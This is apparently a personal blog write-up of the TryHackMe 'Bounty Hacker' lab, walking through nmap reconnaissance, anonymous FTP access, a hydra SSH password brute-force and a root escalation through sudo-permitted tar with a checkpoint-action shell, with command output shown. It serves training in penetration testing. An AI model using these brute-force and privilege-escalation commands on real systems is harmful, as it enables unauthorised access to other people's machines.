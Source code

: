 ```yaml
---
title: "Bounty_hacker.sh"
date: 2020-10-02T16:10:45-04:00
draft: false
toc: true
featured: true
summary: "You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!"
images:
  - "img/bountyHacker_cover.jpg"
cover: "img/bountyHacker_cover.gif"
tags:
  - hacking
  - tryHackme
  - writeups
---
```



## Bounty Hacker - THM Room

Hello interweb readers! I've felt like doing a quick box since I'm quite busy with work these days and its hard to find time to do longer boxes. Anyways, this time I went for 'Bounty Hacker' TryhackMe's room. This is a writeup detailing all my process to root this room, flaws and all. I embrace mistakes and try to learn from them, therefore this post also includes my failed attempts. You have been warned :) 

PS: The challenge was to have this box rooted and half documented at the very least during my lunch break and finish the quick writeup later today. Spoiler alert: I was able to, and I'm super happy about it.

- Please visit This room on TryHackMe by [clicking this link](https://tryhackme.com/room/cowboyhacker).
- **PLEASE NOTE:** Passwords, flag values, or any kind of answers to the room questions were intentionally masked as required by THM writeups rules. 


### Recon: Nmap scan

We start as usual firing up nmap and running a scan, notice I initially tested the target to see if it responded to ping and it did. Otherwise, I would've added `-Pn` switch to nmap to avoid pinging the target. So I ran this: `sudo nmap -sV -sC -T4 -A -p- 10.10.38.249`

While nmap runs I usually open the target IP in the browser to see if anything is being served as a webpage:

Turns out we do have something, they are teasing us a bit with the story behind this room. Which seems related to the popular `Cowboy bebop` anime. Which also has AN AMAZING SOUNDTRACK!

![Page served](https://i.imgur.com/CTE4wsW.png)

Before we move to our friend `nmap` allow me to add some music to the post, I truly think Cowboy Bebop's OST is awesome. Let's hit play on this song and move on with the hacking:


> **SEATBELTS** - **Tank!** - **Cowboy Bebop OST** - **Written by Yoko Kanno**
> {{< youtube id="n2rVnRwW0h8" autoplay="false" >}}
> Crank that volume up!


Ok enough fooling around, let's see what that nmap scan returned:

```sh
sudo nmap -sV -sC -T4 -A -p- 10.10.38.249
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 13:10 EDT
Nmap scan report for 10.10.38.249
Host is up (0.33s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.0.34
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Infomir MAG-250 set-top box (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%), Linux 3.7 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   226.02 ms 10.13.0.1
2   ... 3
4   364.92 ms 10.10.38.249

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1957.43 seconds
```

### FTP Access

One of the results we got brack from the nmap scan, is that the target has an FTP service with anonymous access enabled. Let's try that:

```sh
┌──(kali㉿kali)-[~/Documents/THM/bountyHacker]
└─$ ftp 10.10.38.249                                                              
Connected to 10.10.38.249.
220 (vsFTPd 3.0.3)
Name (10.10.38.249:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 
```

It seems we have two files in the FTP server. We download both using `get {file_name}` command. If we then open both files we see some interesting data on each of them:

- **task.txt** : Mentions some task to be performed, and the message is signed by someone named `lin`
- **locks.txt** : Contains a list of possible usernames, or maybe passwords listed one-per-line.

Let's see if we can use that information next.


### Bruteforcing: hydra

At this point, I initially fired up hydra with the `locks.txt` as username list and `rockyou.txt` as the wordlist. That didn't work. Then I tried using the the user mentioned in the `task.txt` file `lin` and instead of using `rockyou.txt` as wordlist and I used `locks.txt` instead. That took a while but it worked:

We brute-force the SSH login using `lin` as username and the `locks.txt` file as the wordlist:

```sh
hydra -l lin -P locks.txt 10.10.38.249 ssh 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-02 15:52:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.38.249:22/
[22][ssh] host: 10.10.38.249   login: lin   password: THM{REDACTED_HAVE_FUN}
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-02 15:52:43
```

### SSH Access

Once `hydra` managed to brute-force his way in, we log in using lin's credentials and locate the `user.txt` flag. Which is conveniently located at the same directory we land after login.

```sh
┌──(kali㉿kali)-[~/Documents/THM/bountyHacker]
└─$ ssh lin@10.10.38.249                                                                                                                  
The authenticity of host '10.10.38.249 (10.10.38.249)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.38.249' (ECDSA) to the list of known hosts.
lin@10.10.38.249's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{REDACTED_HAVE_FUN}
lin@bountyhacker:~/Desktop$ 
```

### We check current user permissions

We need now, to see how we can escalate privileges so we can get the root flag. We start by checking what is the access level of the current user. We doe `sudo -l` to see if we have access to anything as sudo (root)

```sh
lin@bountyhacker:/tmp$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
lin@bountyhacker:/tmp$ 

```
It seems the user is allowed to run `tar` as root. Let's see if we find any way to exploit that. A good place to look is at GTFObins page.
They have an entry for `tar` [here](https://gtfobins.github.io/gtfobins/tar/).


We are offered a couple of options, the first one is trying to run this command: `tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` in our case since we know we can run `tar` as `sudo` we do that:

```sh
lin@bountyhacker:/tmp$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# 

```

And we got root, now we just need to locate the root.txt flag:

```sh
# cd root
# ls
root.txt
# cat root.txt
THM{REDACTED_HAVE_FUN}
# 

```

That's it. We rooted the box and with just enough time left on my lunch break so I can get some coffee before getting back to work.
I hope you enjoyed this quick room as I did.

Thank you and Happy hacking!

{{< thm_badge >}}